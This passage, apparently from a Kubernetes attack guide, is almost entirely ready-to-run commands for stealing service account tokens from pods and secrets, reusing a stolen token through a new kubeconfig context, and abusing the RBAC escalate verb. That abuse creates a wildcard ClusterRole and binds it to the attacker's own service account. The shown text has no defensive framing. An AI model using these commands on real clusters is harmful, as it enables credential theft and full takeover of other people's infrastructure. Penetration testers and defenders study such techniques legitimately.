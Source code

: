 ### Service Account Token Exploitation

**1. Stealing Service Account Tokens**

```bash
# From running pod exec
kubectl exec -it target-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/token

# From secrets
kubectl get secrets --all-namespaces
kubectl get secret service-account-token-name -o yaml

# Extract token from secret
kubectl get secret secret-name -o jsonpath='{.data.token}' | base64 -d
```

**2. Using Stolen Tokens**

```bash
# Test token permissions
kubectl auth can-i --list --token=$STOLEN_TOKEN

# Use token for kubectl commands
kubectl --token=$STOLEN_TOKEN get pods

# Create kubeconfig with stolen token
kubectl config set-credentials stolen-user --token=$STOLEN_TOKEN
kubectl config set-context stolen-context --user=stolen-user --cluster=current-cluster
kubectl config use-context stolen-context
```

### RBAC Privilege Escalation Techniques

**1. Escalate Verb Exploitation**

If you have `escalate` permissions on roles:

```bash
# Create a new role with full permissions
cat << EOF | kubectl apply -f -
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: escalated-role
rules:
- apiGroups: ["*"]
  resources: ["*"]
  verbs: ["*"]
EOF

# Bind the role to your service account
cat << EOF | kubectl apply -f -
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: escalated-binding
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: ClusterRole
  name: escalated-role
subjects:
- kind: ServiceAccount
  name: your-service-account
  namespace: your-namespace
EOF
```
